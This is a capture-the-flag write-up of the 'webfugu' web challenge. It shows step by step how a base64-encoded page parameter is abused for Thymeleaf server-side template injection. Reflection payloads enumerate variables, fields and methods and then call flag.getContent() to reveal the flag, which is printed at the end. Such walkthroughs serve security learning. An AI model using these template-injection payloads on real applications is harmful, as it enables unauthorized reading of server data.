# Problem Statement

A new site listing the different species of fugu fish has appeared on the net. Used by many researchers, it is nevertheless vulnerable. Find the vulnerability and exploit it to recover some of the website configuration.

Creator: MasterFox

http://webfugu.sharkyctf.xyz


# Solution

Load up the site press F12 to bring up dev tools. Hit refresh. Boom, something interesting:

![](../Images/webfugu_1.PNG)

Let's see the full content: http://webfugu.sharkyctf.xyz/process?page=PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=

So, page is

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=
    
This looks like a Base64 encoding, but with a twist (notice the %2 and probably others). So I suspect it's a url encoding of a base64 encoding, if that makes sense. Let's see (use any online or commandline tool)

After url decoding:

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI+IDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg+RGlzY292ZXJ5IHllYXI8L3RoPiA8dGg+RGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ+IDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ+IDwvdHI+IDwvdGFibGU+IDwvZGl2PiAgICAgIAo=
    
Much better, let's base64 decode:

    <div> <table border="1"> <tr> <th>Name</th> <th>Discovery year</th> <th>Discoverer name</th> </tr> <tr th:each ="fish : ${fishes}"> <td th:utext="${fish.name}">...</td> <td th:utext="${fish.discoveryYear}">...</td> <td th:utext="${fish.discovererName}">...</td> </tr> </table> </div>
    
Hard to read, let's pretty print (we'll base64+url encode either way, it's better to see the structure easier):

    <div>
       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="fish : ${fishes}">
             <td th:utext="${fish.name}">...</td>
             <td th:utext="${fish.discoveryYear}">...</td>
             <td th:utext="${fish.discovererName}">...</td>
          </tr>
      </table>
    </div>

OCD satisfied. On to WTH is this? th:each? I've never seen that. Let's Google:

![](../Images/webfugu_2.PNG)

Thymeleaf. Hmm Thymeleaf

    Thymeleaf is a modern server-side Java template engine for both web and standalone environments. Thymeleaf's main goal is to bring elegant
    
Cool, so Thymeleaf is our new friend who will do our work for us. On to StackOverflow:

![](../Images/webfugu_3.PNG)

Click first link, see a payload vaguely similar in structure to our own html:

    <table>
        <tr th:each="var : ${#vars.getVariableNames()}">
            <td th:text="${var}"></td>
            <td th:text="${#vars.getVariable(var)}"></td>
        </tr>
        ....
    </table>

Let's try to make a payload (in the actual CTF run the first tests were to put arbitrary expressions in like ${3*7} to see if they get executed.)

    <div>
       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="var : ${#vars.getVariableNames()}">
             <td th:utext="${var}"></td>
             <td th:utext="${#vars.getVariable(var)}"></td>
             <td th:utext="${3*2}"></td>
          </tr>
      </table>
    </div>

One base64 encode + url encode later (paranoia perhaps urlencode is no longer needed, since we got rid of some '...' strings in the xml), we get a payload (not pasting the string result, as that can vary because of spacing). We then apply that payload to:

    http://webfugu.sharkyctf.xyz/process?page=PGRpdj4K.....
    
![](../Images/webfugu_4.PNG)

Last thing I wanted to see:"REDACTED", the dread of any CTF-er. :). Not giving up yet, let's dig mnore
    
    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${fishes[0].class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${2*2}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>

Which got us:

![](../Images/webfugu_5.PNG)

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${flag.class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${field}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>
 
Which gets us: 
 
 ![](../Images/webfugu_6.PNG)
    
Aargh! A private field. I spent the next hours fixated on the fact that it's private and trying to find a way to reflect into it (perhaps setting "flag.class.getField("content").setAccessible(true)" before attempting to call flag.class.getField("content").getValue(flag)". If confused, read up on Java Reflection. And I fixated and fixated and fixated.

Luckily, at some point a friend of mine (randomly talking to on phone), who's more into Java, asks me: "what about methods?"

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${method.name}"></td>
         <td th:utext="${method}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>
    
Which gets us:

 ![](../Images/webfugu_7.PNG)

Ha! there is a method called getContent() for the flag class. Overthinker that I am I tried to reflect more :) field.class.getMethod("getContent", flag.class).invoke(flag) and other crazy shenanigans all ending in 500's.

But at some point, I stopped and realized the extent of my shortsightedness (and probably could have "guessed", if I had a Java background) as I suspected I could do what I'm about to do with the next payload. I wanted this payload so that when it was successful, I could see the flag multiple times, so I don't miss it :)

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
      </tr>
    </table>
    </div>

Wooop, there it iiis!

 ![](../Images/webfugu_8.PNG)

# Flag
shkCTF{w31rd_fishes_6ee9f7aabf6689c6684ad9fd9ffbae5a}
